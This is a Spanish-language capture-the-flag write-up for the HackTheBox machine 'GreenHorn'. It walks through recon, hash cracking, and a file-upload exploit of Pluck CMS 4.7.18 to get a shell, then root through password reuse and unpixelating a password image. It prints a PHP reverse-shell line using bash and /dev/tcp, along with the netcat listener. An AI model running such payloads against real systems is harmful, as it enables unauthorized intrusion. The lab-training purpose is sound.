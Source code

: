 ```yaml
---
title: GreenHorn
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [pluck, depix]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/greenhorn1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos, será un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina, y conocer los servicios que corren por ellos.

```bash
nmap -p- --open -T5 10.10.11.25 -n -Pn -v
```

![picture](/assets/images/hackthebox/greenhorn2.png){: w="600" h="300" }

Añadimos el dominio **greenhorn.htb** junto con la *IP* al archivo **/etc/hosts**, esto se realiza para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/greenhorn3.png)

Al no encontrar ningún puerto interesante por el que se pueda intentar algún tipo de explotación, vamos al navegador a ver de que se trata la página web tanto con el puerto **80**, como con el **3000**.

1. Puerto 80
    - Tras revisar la página web y su código, en busca de algún tipo de información, no he encontrado nada.

    ![picture](/assets/images/hackthebox/green4.png)

    - Haciendo un poco de **Fuzzing** manual, encontramos la ruta *http://greenhorn.htb/login.php*, en la que hay un panel de login de **Pluck** (gestor de contenidos CMS), con versión **4.7.18**, probando contraseñas comunes no he obtenido resultado.

    ![picture](/assets/images/hackthebox/green5.png){: w="600" h="300" }

2. Puerto 3000
    - En este puerto encontramos una web de **Gitea**, que es un paquete de software de código abierto para alojar el control de versiones utilizando **Git**. Navegando en esta web encontramos un repositorio llamado **GreenAdmin**.

    ![picture](/assets/images/hackthebox/green6.png)

    - Viendo el contenido de las carpetas del repositorio, nos encontramos con una contraseña cifrada en ***/data/settings***.

    ![picture](/assets/images/hackthebox/green7.png)

    ---

## **Explotación**

A continuación, vamos a intentar crackear la contraseña con ***John The Ripper*** en nuestra máquina local.

- Identificamos el tipo de cifrado hash con la herramienta **hash-identifier**, y vemos que el hash es del tipo "*SHA-512*".

    ![picture](/assets/images/hackthebox/green88.png)

- Se procede a crackear la contraseña cifrada, en busca de la contraseña en texto claro.

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt
    ```

    ![picture](/assets/images/hackthebox/green9.png)

Una vez encontrada la contraseña, se va a probar a entrar el el panel de **PLUCK**, y obtengo acceso.

![picture](/assets/images/hackthebox/green10.png)

Buscando en internet encontramos que la versión de **PLUCK** es vulnerable, en la parte de instalar módulos, podemos subir un archivo **.php**, el cual nos lo va a ejecutar.
La idea es subir una una **Reverse Shell** sencilla, pero hay un inconveniente, este CMS solo deja subir archivos **.zip**, con lo cual tendremos que modificar el archivo y crear un ***.zip***.

![picture](/assets/images/hackthebox/green11.png)

Nos ponemos en escucha con un **Listener** por el puerto **4444**, para que cuando subamos el archivo y nos ejecute la **Reverse Shell**, nos envíe una **Shell interactiva** a nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```
- Reverse Shell (contenido)

    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/Nuestra Ip/4444 0>&1'");
    ```

Y subimos el archivo **.zip**.

![picture](/assets/images/hackthebox/green12.png){: w="600" h="300" }

Una vez subido el archivo, nos envía la **Shell interactiva**, y estamos dentro de la máquina con el ussuario **www-data**.

![picture](/assets/images/hackthebox/green13.png){: w="600" h="300" }

---

## **Escalada de privilegios**

En el directorio **/home** encontramos un usuario llamado **junior**, probamos a conectarnos con la contraseña encontrada antes, y obtenemos acceso.

![picture](/assets/images/hackthebox/green14.png)

En el directorio personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/green15.png)

En el directorio personal, también encontramos un **pdf**, el cual nos lo vamos a traer a la máquina local para poder comprobar el contenido, para ello montamos un **servidor http** con **Python3** por el puerto **1234**, y nos lo descargamos con **wget** desde la máquina local.

```bash
python3 -m http.server 1234
```

![picture](/assets/images/hackthebox/green16.png)


Vemos que es una imagen con este texto, y una contraseña *pixelizada* e *ilegible*.

![picture](/assets/images/hackthebox/green17.png){: w="600" h="300" }

Para poder leer el contenido de la contraseña, vamos a utilizar una herramienta llamada ***DEPIX***, la cual podemos encontrar en [GitHub](https://github.com/spipm/Depix).

Antes convertimos el *pdf* al formato *ppm* con **pdfimages**.

![picture](/assets/images/hackthebox/green18.png)

Seguimos los pasos como lo indican en el repositorio de *GitHub*.

![picture](/assets/images/hackthebox/green19.png)

Y nos crea un archivo con la contraseña legible.

![picture](/assets/images/hackthebox/green20.png)

Probamos a migrar al usuario **privilegiado** **root**, obtenemos acceso, y en su directorio personal tenemos la segunda **flag**.

![picture](/assets/images/hackthebox/green21.png)

![picture](/assets/images/hackthebox/green22.png){: w="600" h="300" }



